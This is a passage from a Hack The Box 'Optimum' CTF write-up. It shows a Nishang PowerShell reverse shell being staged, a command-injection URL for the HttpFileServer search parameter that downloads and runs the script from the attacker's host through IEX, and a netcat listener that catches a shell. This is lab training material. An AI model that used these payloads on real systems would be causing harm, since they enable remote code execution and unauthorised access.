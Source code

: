 
We can use Nishang to get a reverse shell.

We will make sure to use the Powershell path _C:\Windows\SysNative\WindowsPoershell\v1.0\powershell.exe_ in order to get a 64-bit shell.

This chart shows how to get a 32-bit session to provide a 64-bit shell.

![architecture](../../../assets/images/ctfs/hack_the_box/optimum/architecture.png)

```bash
# Copy the reverse shell script to our current directory
┌──(vagrant㉿kali)-[/opt/tools/nishang/Shells]
└─$ sudo cp Invoke-PowerShellTcp.ps1 /home/vagrant/Documents/HTB/optimum/

# rename to rev.ps1
┌──(vagrant㉿kali)-[~/Documents/HTB/optimum]
└─$ mv Invoke-PowerShellTcp.ps1 rev.ps1

# Edit the Nishang reverse shell script
┌──(vagrant㉿kali)-[~/Documents/HTB/optimum]
└─$ sudo echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 9001" >> rev.ps1

# Here is the payload to get the rev.ps1 payload downloaded
http://10.129.161.181/?search=%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).downloadString('http://10.10.14.19:8000/rev.ps1').}

# Use curl to execute the URL encoded version

curl http://10.129.161.181/?search=%00%7B.exec%7Cc%3A%5CWindows%5CSysNative%5CWindowsPowershell%5Cv1.0%5Cpowershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.downloadString%28%27http%3A%2F%2F10.10.14.19%3A8000%2Frev.ps1%27%29.%7D

```

![reverse](../../../assets/images/ctfs/hack_the_box/optimum/reverse.png)

# Post-Exploitation

---

We can see that we have a 64-bit shell

```bash
┌──(vagrant㉿kali)-[~/Documents/HTB/optimum]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.19] from (UNKNOWN) [10.129.161.181] 49190
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
optimum\kostas
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
True

```
